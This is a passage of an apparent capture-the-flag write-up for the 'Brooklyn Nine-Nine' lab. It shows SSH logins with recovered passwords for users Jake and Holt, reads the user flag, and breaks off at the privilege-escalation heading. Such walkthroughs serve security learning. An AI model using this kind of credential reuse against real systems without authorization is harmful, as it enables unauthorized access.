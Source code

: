 > "Oh, I've caused a problem. I think I am getting a text message. Bloop. Ah, there it is." - Captain Holt

So we have holt's password too. 

##Gaining Shell and User flag

Since we have two variants of accessing this machine, let's try both. Starting with Jake, cause we found his password first.

### Jake
Access machine via `ssh` with Jake's credentials.
{% highlight console %}
m0rn1ngstr@kali:~/THM/b99$ ssh jake@10.10.178.215
The authenticity of host '10.10.178.215 (10.10.178.215)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.178.215' (ECDSA) to the list of known hosts.
jake@10.10.178.215's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$

{% endhighlight %}

Now let's find user's flag. Jake's `home directory` was empty. In `home` directory we have 3 folders: Jake, Holt, Amy. `User.txt` was in Holt's home directory.
{% highlight console %}
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls -l
total 8
-rw------- 1 root root 110 May 18 17:12 nano.save
-rw-rw-r-- 1 holt holt  33 May 17 21:49 user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
[user's flag]
jake@brookly_nine_nine:/home/holt$
{% endhighlight %}

### Holt
We also could log in as Holt via `ssh` with his credentials and read `user.txt`
{% highlight console %}
m0rn1ngstr@kali:~/THM/b99$ ssh holt@10.10.178.215
holt@10.10.178.215's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
[user's flag]

{% endhighlight %}


## Privilege escalation and Root flag
Here we also have two ways for `Privilege escalation`

